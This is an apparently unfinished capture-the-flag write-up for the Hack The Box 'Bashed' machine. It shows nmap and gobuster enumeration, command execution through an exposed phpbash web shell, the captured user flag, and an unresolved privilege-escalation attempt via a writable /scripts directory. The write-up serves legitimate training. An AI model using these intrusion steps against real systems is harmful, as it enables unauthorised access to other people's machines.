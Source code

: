 # MACHINE CHALLENGE: BASHED

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.68
OS: Linux
```

### NAME OF THE MACHINE AS A HINT?

Something about bash script vulnerability?

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.68 > nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-19 23:44 EST
Nmap scan report for 10.10.10.68
Host is up (0.45s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

So we have 1 open service running - http(80) - Apache httpd 2.4.18 on Ubuntu.

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we see something called 'Arrexel's Development Site':

```
http://10.10.10.68
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/bashed/index.html.jpg" width=500px/>

##### GOBUSTER

Bruteforce enumeration using `gobuster` yields..

```
$ gobuster -e -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/uploads (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/fonts (Status: 301)
```

Poking through each of the discovered directories..

```
/dev/phpbash.min.php
/dev/phpbash.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/php/sendMail.php
/uploads
/images/ajax-document-loader.gif
/images/arrow.png
/images/favicon.png
/images/logo.png
```

##### PHPBASH.PHP

Reading through some of the scripts, came across `/dev/phpbash.php` that
seemed interesting (around line 102):

```
 <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
```

Loading this script appears to give us a session on the machine????

```
http://10.10.10.68/dev/phpbash.php
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/bashed/phpbash.php.jpg" width=500px/>

### OWN USER

Using the `phpbash.php` script as a session into the machine:

```
www-data@bashed :/var/www/html/dev# cd /home
www-data@bashed :/home# ls
arrexel
scriptmanager
www-data@bashed :/home# cd arrexel
www-data@bashed :/home/arrexel# ls
user.txt
www-data@bashed :/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### OWN MACHINE

u dont need reverse shell... man u just copy the root.txt into tmp create a simple python script. :)

On the machine, there is a directory called `/scripts` which stands out as an
area of interest as it has a `test.py` script owned by user `scriptmanager`
and a `test.txt` file owned by `root`. Wonder if we can some how use this
setup to copy the `/root/root.txt` file out to a place we can access?

```
www-data@bashed :/# ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 /scripts
www-data@bashed :/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Dec 19 21:32 test.txt
www-data@bashed :/# sudo -u scriptmanager cat /scripts/test.py
# cat test.py
import os
os.system('cat /root/root.txt.txt >> test.txt')
www-data@bashed
:/tmp# sudo -u scriptmanager python /scripts/test.py
cat: /root/root.txt.txt: Permission denied
```

Hm.. so I'm stuck.  What I don't know is how to:
1. edit the `test.py` to have the commands I want (e.g. cat /root/root.txt)
2. execute the script with root priviledges
